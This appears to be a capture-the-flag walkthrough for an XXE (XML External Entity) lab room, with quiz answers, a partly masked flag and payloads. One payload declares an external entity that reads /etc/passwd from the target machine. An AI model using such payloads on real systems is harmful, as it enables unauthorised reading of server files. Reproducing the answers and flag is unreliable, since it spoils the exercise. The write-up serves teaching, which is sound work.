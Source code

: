 	- `THM{Y**************************iMjdl}`

- Deploy the machine attached to the task.

	  no answer needed

- Full form of XML

	- `eXtensible Markup Language`

- Is it compulsory to have XML prolog in XML documents?

	- `no`

- Can we validate XML documents against a schema?

	- `yes`

- How can we specify XML version and encoding in XML document?

	- `XML Prolog`

-  How do you define a new ELEMENT?

	- `!ELEMENT`

- How do you define a ROOT element?

	- `!DOCTYPE`

- How do you define a new ENTITY?

	- `!ENTITY`

- Try the payload mentioned in description on the website.

	  no answer needed

	- Navigate to `http://<TARGET_IP>`
	- Insert this code inside the payload area:

	~~~
	<?xml version="1.0"?>
	<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
	<root>&read;</root>
	~~~
	- Submit

- Try to display your own name using any payload.

	  no answer needed

	- Insert this code inside the payload area:

	~~~
	<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 	<userInfo>
  	<firstName>falcon</firstName>
  	<lastName>&name;</lastName>
 	</userInfo>
	~~~
	- Submit
	